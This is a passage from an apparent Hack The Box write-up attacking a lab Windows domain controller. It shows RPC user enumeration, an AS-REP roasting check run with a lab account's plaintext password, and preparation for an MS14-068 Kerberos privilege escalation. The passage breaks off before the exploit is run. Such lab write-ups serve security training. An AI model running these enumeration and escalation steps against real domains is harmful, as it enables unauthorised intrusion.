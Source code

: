 

I poked around in both, but didn't find much.

### RPC - TCP 445

james can connect to RPC and list users:



    root@kali# rpcclient -U htb.local/james 10.10.10.52
    Enter HTB.LOCAL\james's password: 
    rpcclient $> enumdomusers
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[james] rid:[0x44f]



Nothing too exciting here.

### Kerberos

With a user, now I can dump the full list of ASP-REP vulnerable users,
but there aren't any:



    root@kali# GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

    No entries found!



## Shell as System

### Identify Exploit

After striking out on more exploitation, I started to Google a bit, and
eventually found [this blog
post](https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.md)
about MS14-068. Basically it's a critical vulnerability in Windows DCs
that allow a simple user to get a Golden ticket without being an admin.
With that ticket, I am basically a domain admin.

### Prep My VM

Following along with the article, I'll install the Kerberos packages:



    root@kali# apt-get install krb5-user cifs-utils



I'll add the domain controller to my `/etc/hosts` file using the name
identified by `nmap` at the start:

